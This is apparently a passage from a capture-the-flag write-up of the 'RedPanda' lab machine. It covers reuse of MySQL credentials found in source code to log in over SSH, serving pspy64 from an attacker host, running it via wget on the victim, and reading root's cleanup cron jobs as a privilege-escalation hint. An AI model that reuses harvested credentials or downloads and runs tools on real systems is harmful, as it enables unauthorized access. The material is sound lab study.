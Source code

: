 Found stored credentials:

>conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "`woodenk`", "`RedPandazRule`");

>Lateral Movement => SSH (woodenk)

### Lateral Movement

#### SSH (woodenk)

	ssh woodenk@10.10.11.170

```text
woodenk@10.10.11.170's password: RedPandazRule
woodenk@redpanda:~$
```

#### Spy processes

Attacker:

	python3 -m http.server 80

Victim:

	wget <attacker_ip>/pspy64
	chmod +x pspy64
	./pspy64

root runs `cleanup.sh` as woodenk:

```text
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░
CMD: UID=113  PID=914    | /usr/sbin/mysqld
CMD: UID=1000 PID=882    | java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar

CMD: UID=0    PID=22536  | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=22543  | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=22544  | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=22563  | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ;
CMD: UID=1000 PID=22555  | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=22565  | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```

>The `xml` and `jpg` file types being deleted look like a clue hinting towards privilege escalation.
